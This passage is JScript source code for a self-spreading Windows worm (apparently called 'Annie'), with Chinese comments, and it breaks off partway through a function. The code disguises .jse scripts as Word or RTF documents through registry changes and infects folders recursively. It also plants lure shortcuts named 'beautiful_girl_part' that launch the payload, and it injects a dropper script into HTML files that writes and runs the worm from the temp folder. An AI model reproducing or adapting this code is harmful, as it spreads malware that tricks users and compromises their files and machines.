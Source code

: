 function DisguiseJse() {
// 修改.jse文件的注册表信息进行伪装
    try {
        ChangeJseReg('.docx');
    } catch (e) {
        try {
            ChangeJseReg('.doc');
        } catch (e) {
            try {
                ChangeJseReg('.rtf');
            } catch (e) {}
        }
    }
}

function InfectSubFolder(path) {
    // 枚举子目录
    var e = new Enumerator(fso.GetFolder(path).SubFolders);
    for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
        var folder = e.item();
        // GetSpecialFolder(0) 返回WindowsFolder路径
        if ((folder.Name != 'RECYCLER' && folder.Name != 'System Volume Information') && folder.Path != fso.GetSpecialFolder(0)) {
            InfectFolder(folder.Path);
            InfectSubFolder(folder.Path);
        }
    }
}

function CreateShortcut(path) {
    for (var i = 1; i <= 5; i++) {
        var lnkname = path + 'beautiful_girl_part_' + i + '.lnk';
        if (!fso.FileExists(lnkname)) {
            try {
                var shortcut = shell.CreateShortcut(lnkname);
                shortcut.IconLocation = 'wmploc.dll,8';
                shortcut.TargetPath = 'wscript.exe';
                shortcut.Arguments = '//e:jscript annie.ani ' + '/q:' + i;
                shortcut.Save();
            } catch (e) {}
        }
    }
}

function EditHTML(filepath) {
    var str = '<!--[ANNIE83E333BF08546819]-->';
    if (GetDocType(filepath) != str) {
        var text = ReadText(filepath);
        // 所有斜线替换成双斜线
        var ki4io = script.replace(/\\/g, '\\\\');
        // 所有单引号替换为带转义字符的单引号
        var v0l9m = ki4io.replace(/\'/g, '\\\'');
        // 将脚本插入html代码中
        var html = '<html>\n<script type="text/javascript">\n<!--\nvar ayfp6=new ActiveXObject(\'Scripting.FileSystemObject\');var dk5h8=new ActiveXObject(\'WScript.Shell\');var s41k8=ayfp6.GetSpecialFolder(2);var bgw3u=ayfp6.GetTempName();var vlx8c=\'' + v0l9m + '\'+String.fromCharCode(0);var rwyg5=ayfp6.CreateTextFile(s41k8+\'\\\\\'+bgw3u,true);rwyg5.Write(vlx8c);rwyg5.Close();dk5h8.Run(\'wscript.exe //e:jscript \'+s41k8+\'\\\\\'+bgw3u+\' /t\');\n//-->\n</script>\n</html>';
        SetFileNewAttributes(filepath, 0);
        try {
            // 将生成的DocType标志及HTML代码加入到原文件中
            var file = fso.OpenTextFile(filepath, 2);
            file.WriteLine(str);
            file.WriteLine(text);
            file.WriteLine(html);